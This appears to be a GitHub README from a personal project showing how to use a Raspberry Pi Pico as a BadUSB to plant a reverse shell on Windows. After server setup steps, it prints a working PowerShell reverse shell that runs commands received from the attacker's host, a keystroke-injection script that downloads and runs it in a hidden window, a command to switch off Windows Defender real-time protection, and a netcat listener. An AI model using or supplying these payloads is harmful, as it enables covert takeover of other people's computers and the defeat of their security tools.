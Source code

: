 # ReverseShellWithRpiPico
This repository is a personal project aimed at explaining how to use a Raspberry Pi Pico as a BadUSB to execute a reverse shell attack on Windows.

For a reverse shell attack we need a victim client and an attacking server. The client will initiate a remote connection to the server that will accept it. So, it's the victim client that initiates a connection with the attaccking server, then the server becomes the master and the client becomes the slave.

In my case, I used a Raspberry Pi Pico to make the victim client connect to the attacking server.

## Server configuration
You need a web server, such as Aruba or Linode for example, but anything will do. In my case i used a Raspberry Pi 4 to host the web server. In case you want to use this solution, below you can find the guide for configuring the server on the following the server on rpi4 with Nginx (you can use apache or some other server). 

### Install Nginx
The first step is to install an OS (like Raspberry Pi OS or Kali linux ARM) on your Raspberry Pi 4. 
After the OS installation you need to open a new terminal window and type the following commands:

    sudo apt update
    sudo apt install nginx
### Install MySQL
In my case I used MariaDB. To install MariaDB paste the following command in the terminal:

    sudo apt install mariadb-server
Now we need to set up the root user. First thing, use the following command:

    sudo mysql_secure_installation
Follow the steps required to disable the default terminal access for the root user and to set a new root password.
### Install PHP
To install PHP you need just to type a couple of lines of command and guess what, you can find them below ;). 
    
    sudo apt-get install php-fpm php-mysql
    sudo nano /etc/php5/fpm/php.ini
With the last command you can edit the `php.ini` file. Find the line that says `cgi.fix_pathinfo=1` and change it to `cgi.fix_pathinfo=0`. Now, just restart PHP:

    sudo systemctl restart php-fpm
### Configure Nginx to use PHP
To configure Nginx to use PHP you can edit the following file:

    sudo nano /etc/nginx/sites-available/default
The file will look like this:

    server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;

        index index.php index.html index.htm index.nginx-debian.html;

        server_name [your public IP];

        location / {
            try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/var/run/php5-fpm.sock;
        }

        location ~ /\.ht {
            deny all;
        }
    }
Replace `[your public IP]` with your public IP. 

Now, type these couple of lines to check the Nginx syntax and then restart the service:

    sudo nginx -t
    sudo systemctl reload nginx
### Set up port forwarding
You need to access your router's admin interface and find the port forwarding settings. Then set it like this:

    Service Port: 80
    Internal Port: 80
    IP Address: [your Pi's IP address]
    Protocol: TCP
    Common Service Port: HTTP
## BadUSB Setup
As mentioned previously, I used a Raspberry Pi Pico as a BadUSB. To do this you can follow this [link](https://github.com/dbisu/pico-ducky) tutorial.

## BadUSB script
Once the Raspberry Pi Pico is configured as BadUSB, we need to write the script that will allow us to establish the remote connection from the client to the attacking server. 
To achieve this I uploaded the file `payload.ps1`. 

    $sm=(New-Object Net.Sockets.TCPClient('your_domain',81)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
In this file you need to change "your_domain" to your real domain or IP address. Optionally, you can replace port 81 with another port.  

Now create a file named `payload.dd` and fill it with the following lines of code:

    DELAY 3000
    GUI r
    DELAY 1000
    STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://your_domain/payload.ps1');"
    DELAY 1000
    ENTER
    DELAY 1000
    STRING exit
    DELAY 1000
Replace  "your_domain" with your effective domain, where you put the file `payload.ps1`. 
You need to turn off the Windows real time protection for this to work. You can do this by adding the following line of code to your script:

    powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
Now you need to set up the server to listen for any connection with a Netcat tool. Netcat is usually already installed in many Linux distros.

To make the server listen, you need to enter the line below in a terminal window:

    nc -lp 81
If you use another port in the `payload.ps1` file, you need to change the port in the above command. 

Now, we can connect the Raspberry Pi Pico to the client and we just need to wait a few seconds and check the connection on the server. 
